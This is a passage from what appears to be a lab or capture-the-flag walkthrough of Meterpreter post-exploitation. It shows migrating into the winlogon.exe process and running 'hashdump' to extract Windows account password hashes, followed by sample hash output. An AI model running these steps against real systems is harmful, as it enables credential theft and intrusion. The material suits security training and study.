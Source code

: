 `winlogon.exe` looks to be a suitable process, so run:

`migrate -N winlogon.exe`

**Dumping hashes**   
Finally, we can dump out the hashes for the users:

`hashdump`

This will give us something like:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
User:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```




